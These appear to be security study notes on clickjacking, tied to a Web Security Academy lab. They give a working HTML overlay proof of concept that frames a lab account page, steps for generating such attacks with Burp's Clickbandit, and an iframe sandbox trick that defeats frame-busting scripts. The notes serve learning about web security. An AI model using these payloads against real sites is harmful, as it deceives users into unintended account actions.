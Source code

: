 ### Clickjacking

**Clickjacking PoC**

```
<style>
    iframe {
        position:relative;
        width:99vw;
        height: 99vh;
        opacity: 0.5;
        z-index: 2;
    }
    div {
        position:absolute;
        top:300px;
        left:400px;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="https://0a96005403001104812e3ea900bf0098.web-security-academy.net/my-account"></iframe>
```

**Clickbandit**
- Used to automatically generate PoCs
- Steps:
  - Burp Menu -> Clickbandit
  - Paste the scripts in the JS console
  - Click start, perform actions, click finish to record
  - Save

**Scripts Blocking Iframes**
- Sometimes websites have scripts checking to make sure iframes are visible and the main page is the top menu
- Can usually be circumvented using iframe `sandbox` attribute
  - `<iframe id="victim_website" src="https://{vulnerable_site}.com" sandbox="allow-forms"></iframe>`
  - Clickbandit supports this